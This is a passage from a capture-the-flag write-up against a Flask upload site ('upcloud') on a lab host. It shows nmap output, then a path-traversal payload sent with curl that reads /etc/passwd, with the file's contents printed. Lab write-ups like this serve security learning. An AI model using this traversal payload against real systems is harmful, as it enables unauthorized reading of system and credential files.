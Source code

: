 ```bash
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Mon, 30 May 2022 08:57:24 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: upcloud - Upload files for Free!
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
3000/tcp filtered ppp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.74 seconds
```

Looks like port 3000 is detected as filtered, for now I will focus on the ports 22 and 80 and if I can't find anything we can try to investigate the 3000 too.

## Upcloud

### LFI but not more

We are welcomed by a landing page that allows us to go to an application to upload files, what could be handy, and also allows us to download the source code of this application.

The service is running on Flask so it is a Python application what means that uploading PHP files to get RCE won't work. The thing is that looking at the code, it is pretty easy to notice a LFI vulnerability.

Just url encoding a payload like `..//etc/passwd` and passing it to the `/uploads` directory will give us the `/etc/passwd` file:

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.164/uploads/%2E%2E%2F%2F/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
```